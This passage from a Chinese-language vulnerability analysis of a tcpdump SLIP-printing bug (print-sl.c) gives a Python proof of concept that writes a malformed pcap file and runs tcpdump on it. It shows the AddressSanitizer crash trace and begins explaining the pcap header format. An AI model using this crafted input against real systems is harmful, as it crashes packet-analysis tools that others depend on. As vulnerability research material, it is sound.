 使用下面的 poc 即可成功地触发漏洞产生 Segment Fault：
```python
import os

def sigsegv():
    buf  = "\xd4\xc3\xb2\xa1\x02\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00"
    buf += "\x00\x00\x04\x00\x08\x00\x00\x00\xf6\xb5\xa5X\xf8\xbd\x07\x00'"
    buf += "\x00\x00\x006\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7"
    buf += "\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xe7\xca\x00"
    buf += "\x00RT\x00\x125\x02\x08\x00'\xbd\xc8.\x08\x00"

    with open("slip-bad-direction.pcap", "wb") as f:
        f.write(buf)
        f.close()

    cmd = 'tcpdump -e -r slip-bad-direction.pcap'
    os.system(cmd)

if __name__ == "__main__":
    sigsegv()
```
```
$ python poc.py 
reading from file slip-bad-direction.pcap, link-type SLIP (SLIP)
ASAN:SIGSEGV
=================================================================
==11084==ERROR: AddressSanitizer: SEGV on unknown address 0x08425c5c (pc 0x0815f697 bp 0x00000027 sp 0xbfae3ab0 T0)
    #0 0x815f696 in compressed_sl_print print-sl.c:253
    #1 0x815f696 in sliplink_print print-sl.c:166
    #2 0x815f696 in sl_if_print print-sl.c:77
    #3 0x8060ecf in pretty_print_packet print.c:339
    #4 0x8055328 in print_packet tcpdump.c:2501
    #5 0xb7203467  (/usr/lib/i386-linux-gnu/libpcap.so.0.8+0x1c467)
    #6 0xb71f40e2 in pcap_loop (/usr/lib/i386-linux-gnu/libpcap.so.0.8+0xd0e2)
    #7 0x8051218 in main tcpdump.c:2004
    #8 0xb7049636 in __libc_start_main (/lib/i386-linux-gnu/libc.so.6+0x18636)
    #9 0x8054315  (/usr/local/sbin/tcpdump.4.9.0+0x8054315)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV print-sl.c:253 compressed_sl_print
==11084==ABORTING
```
```
$ file slip-bad-direction.pcap 
slip-bad-direction.pcap: tcpdump capture file (little-endian) - version 2.4 (SLIP, capture length 262144)
```


## 漏洞分析
首先介绍一下 pcap 包的文件格式，文件头是这样一个结构体，总共 24 个字节：
```C
struct pcap_file_header {
        bpf_u_int32 magic;
        u_short version_major;
        u_short version_minor;
        bpf_int32 thiszone;     /* gmt to local correction */
        bpf_u_int32 sigfigs;    /* accuracy of timestamps */
        bpf_u_int32 snaplen;    /* max length saved portion of each pkt */
        bpf_u_int32 linktype;   /* data link type (LINKTYPE_*) */
};
```
- `magic`：标识位：4 字节，这个标识位的值是 16 进制的 0xa1b2c3d4
- `major`：主版本号：2 字节，默认值为 0x2